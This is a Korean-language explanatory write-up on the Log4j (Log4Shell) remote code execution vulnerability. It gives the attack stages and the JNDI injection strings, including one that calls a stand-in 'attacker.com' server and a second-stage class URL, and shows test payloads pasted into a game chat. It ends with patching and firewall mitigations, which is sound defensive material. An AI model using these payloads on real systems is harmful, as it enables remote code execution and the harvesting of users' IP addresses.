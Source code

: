 이번 취약점은 너무나 많은 곳에서 해당 라이브러리를 사용하고 있으며, 간단한 코드만으로도 원격 실행이 
간단하게 이루어질 수 있어, 원격 명령어 실행 및 백도어의 설치 등을 통하여 심각한 피해를 양성할 수 있다.

공격의 단계
1. 사용자의 데이터는 열려 있는 프로토콜을 통해 서버로 전송한다.
2. 서버는 악성 페이로드를 포함하는 요청 데이터를 기록한다. ${jndi:ldap://attacker.com/a}
(여기서 attacker.com는 공격자가 제어하는 서버임)
3. Log4j취약점이 페이로드에 의해 활성화되고 서버는 "Java Naming and Directory Interface" (JNDI)를 통해 
“attacker.com"에 요청을 보낸다. 
4. 응답에는 서버 프로세스에서 삽입된 원격 자바 클래스 파일(예 : http://second-stage.attacker.com/
Exploit.class)의 경로를 포함한다. 
5. 삽입된 페이로드는 두 번째 단계를 활성화하고, 공격자가 임의의 코드를 실행할 수 있도록 한다.


Log4j취약점을 이용한 공격 코드를 쉽게 만들 수 있으며, marshalsec (https://github.com/mbechler/
marshalsec) 프로젝트 등 다양한 공격 코드들이 공개 되고 있다.


- 공격 데이터의 전송 예

\${jndi:ldap://127.0.0.1/e}을 채팅에 붙여 넣는다.

포트 389번에 소켓이 열려 있을 경우, logj4는 연결을 시도하고 시간 초과가 발생할 때까지 추가 통신을 차단한다.

익스플로잇이 정상적으로 작동하는 경우 아래 그림에서 보는 것과 같이 콘솔 로그에 이라는 LDAP 서버의 직렬화된 문자열 개체 (“THIS IS SEND TO THE LOG!!! Log4j EXPLOIT!”)를 기록한다.

![image](https://user-images.githubusercontent.com/62640332/160631624-7b84c3f8-8877-40d4-aef0-1dde11f57aed.png)

추가적으로 악의적인 LDAP 서버는 수신되는 모든 IP 주소를 기록하는데, 이는 서버에 있는 플레이어의 IP 주소를 수집할 수 있음을 의미한다.


- 원격 실행 예


\${jndi:ldap://127.0.0.1/exe}을 채팅에 붙여 넣는다.

만일 “Dcom.sun.jndi.ldap.object.trustURLCodebase=true”로 설정되어 있는 경우 원격 코드 실행이 발생하게 된다.

![image](https://user-images.githubusercontent.com/62640332/160632045-0ea91e27-aca0-45f7-a3d3-ce1ff05038e7.png)

다행스럽게도 최신 JDK는 기본적으로 원격 클래스 로딩을 비활성하지만, 오래된 버전을 사용하는 경우에는 원격 공격이 유효할 수 있게 된다.

[원격 공격 예시](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)

- 대응방안

Log4j 라이브러리를 배포하고 있는 Apache를 포함하여 Log4j 라이브러리를 이용한 제품을 사용하는 경우, 
제조사들의 업데이트 가이드에 따라 안전한 버전으로 업데이트 하는 것이 권장된다.

만일, 패치 적용이 어려울 경우, 웹 방화벽 또는 침입방지시스템(IPS) 등을 이용하여 공격에 사용될 수 있는 패턴을 차단하는 등의 조치가 필요하다.

<br>
<br>
<br>

---

### ㅁ 문서 프로그램의 취약점
